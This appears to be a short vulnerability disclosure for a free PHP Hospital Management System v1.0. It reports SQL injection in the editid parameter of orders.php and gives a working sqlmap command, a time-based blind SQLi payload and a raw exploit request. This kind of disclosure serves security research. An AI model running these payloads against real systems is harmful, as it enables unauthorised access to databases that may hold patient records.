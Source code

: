**[Hospital-Management-System v1.0-SQLi-4](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

img1

### Description:
---
The vulnerability page is ```orders.php```

```http://your-ip/HMS/orders.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```orders.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -u "http://your-ip/hms/orders.php?editid=1" --random-agent  --dbs

[+] Payloads:

```
Parameter: editid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: editid=1' AND (SELECT 7774 FROM (SELECT(SLEEP(5)))puHE) AND 'zVYe'='zVYe
```

[+]GET request package

```
GET /hms/orders.php?editid=1 HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1


```
### In action:
---

img2

### Proof and Exploit:
---
mp4
